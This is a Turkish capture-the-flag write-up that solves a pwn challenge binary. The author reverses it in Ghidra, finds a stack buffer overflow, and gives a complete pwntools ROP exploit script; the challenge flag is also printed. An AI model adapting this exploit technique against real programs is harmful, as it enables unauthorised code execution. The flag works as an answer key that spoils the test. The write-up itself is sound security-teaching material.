# pwn1 - PWN

flag: `SKYSEC{W0W_Y0U'R3_4_H4CK3R_H0W_CH4R15M4T1C}`

# Writeup

 Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu değildir, başka çözümler olabilmektedir.

# Soru

 Bize “chal” isimli bir dosya verilmiş, bu dosyayı açtığımızda karşımıza şöyle bir ekran çıkmakta:



 Program bizden bir girdi alıyor ve aldığı girdiği ekrana yazdırıyor. Bu durumda bizden sorunun içerdiği bayrağı bulmamız isteniyor.

# Çözüm

 Bize verilen dosyanın özelliklerine bakalım:





 Dosyanın 64-bit mimaride, ‘little endian’ biçimde, dinamik olarak bağlanmış ve ‘stripped’ olduğunu; koruma olarak ise ‘NX’ ve ‘Partial RELRO’ içerdiğini görüyoruz.

 Dosyamızda bayrağın nerede olduğunu öğrenmek için dosyayı ‘ghidra’ ile inceleyelim:



 Dosyamız ‘stripped’ olduğundan fonksiyonların isimlerine ulaşamıyoruz. Bundan dolayı programın ne yaptığını anlamak için “entry” fonksiyonundan başlayarak inceleyelim:



 “entry” fonksiyonu bizi ‘FUN_0040128e’ fonksiyonuna yani “main” fonksiyonuna gönderiyor. “main” fonksiyonuna bakalım:



 “main” fonksiyonu ise benzer bir şekilde ‘FUN_00401231’ fonksiyonunu çağırıyor. ‘FUN_00401231’ fonksiyonuna bakalım:



 Programı çalıştırdığımızda karşımıza çıkan ekranın kodunu görüyoruz. Bu kod başka bir fonksiyonu çağırmıyor fakat bayrağı bize verecek fonksiyonu bulmamız gerek. Bunun için diğer fonksiyonlara bakalım:



 Karşımıza böyle ilginç bir fonksiyon çıkıyor. Bu fonksiyon üç adet parametre alıyor ve bu parametreler sırasıyla ‘0xdeadbeef’, ‘0xc0debabe’ ve ‘0xcacadada’ değerlerine eşit olursa ‘flag.txt’ dosyasının içeriğini ekrana yazdırıyor. Eğer parametreler bu değerlere eşit değilse ekrana “Nope, that’s not how you’re supposed to solve this challenge :D” yazdırıyor.

 ‘flag.txt’ dosyası tam da bizim erişmek istediğimiz dosya. Bunun için bir şekilde bu fonksiyona erişip parametrelere doğru değerleri yazmamız gerekiyor. Bunu yapmak için de ‘FUN_00401231’ fonksiyonundaki ‘buffer’ı kullanabiliriz yani bir ‘buffer overflow’ atağı yapabiliriz.

 Öncelikle programımızı ‘debugger’ yardımıyla çalıştırıp ‘rip register’ının ‘offset’ini bulmamız gerek. Bunu şu şekilde yapabiliriz:



 Burada ‘rsp register’ına dolan en soldaki değerlerden sonraki değerler ‘rip register’ına ulaşacak değerlerdir. Bundan dolayı ‘offset’imizi öğrenmek için ‘daaaaaaa’ değerinin ‘pattern’imizde kaçıncı sırada geldiğini bulmamız gerekir:



 Böylelikle ‘offset’imizin 24 olduğunu bulmuş olduk, bu ileride işimize yarayacak.

 Bayrağı yazdıracak fonksiyona dönmek için bu fonksiyonun adresine ihtiyacımız var. Sadece dönmemiz de yetmeyecek, parametreleri de uygun değerlerle eşleştirmemiz gerekiyor. Bunun için önce parametreleri oluşturmalı daha sonra fonksiyonu çağırmalıyız. Parametrelerin hangi ‘register’lar ile kontrol edildiğini öğrenmek için ‘ghidra’da açtığımız fonksiyonun ‘assembly’ kısmına bakalım:



 Fonksiyonun adresini ‘0x401176’ olarak bulmuş olduk. Parametreleri program sırasıyla ‘rdi’, ‘rsi’, ‘rdx’ ‘register’larındaki değerlerle karşılaştırıyor yani bu ‘register’lara uygun değerleri yazmamız gerekecek. Bunu yapmak için ise ‘pop’ ‘gadget’ına ihtiyacımız var. ‘Ropper’ aletini kullanarak bu ‘gadget’lara ulaşabiliriz:



 Bize gereken ‘gadget’ları bulmuş olduk. Bunları not edelim. İhtiyacımız olan bilgileri elde ettiğimize göre artık ‘script’imizi yazabiliriz:

```python
from pwn import *

#terminalde script'i GDB,REMOTE,LOCAL modlarında çalıştırmak için:
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

#binary dosyasının mimarisini ayarlamak için:
exe = './chal' #dosya adı
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug' #olan biteni anlamak için

#####################################
# exploit'i buradan sonra yazacağız #
#####################################

#BOF için gdb'den öğrendiğimiz offsetimizi buraya yazıyoruz:
offset = 24

#ropper'dan öğrendiğimiz gadget adreslerini buraya yazıyoruz:
pop_rdi = 0x401289
pop_rdx = 0x401287
pop_rsi = 0x401285

#programı başlatıyoruz:
io = start()

#payload'ı oluşturuyoruz:
payload = flat({
    offset: [
        pop_rdi,  # Pop the next value to RDI
        0xdeadbeefdeadbeef,
        pop_rsi,  # Pop the next value to RSI (and junk into R15)
        0xc0debabec0debabe,
        pop_rdx,
        0xcacadadacacadada,
        # With params in correct registers, call hacked function
        0x401176
    ]
})

#payload'ımızı yolluyoruz:
io.sendlineafter(b'name:', payload)

#flag'i okuyabilmek için interaktif moda geçiyoruz:
io.interactive()
```

 ‘script’imizi çalıştırdığımızda bayrağımızı elde ediyoruz:



---

written by: KOTAMAN
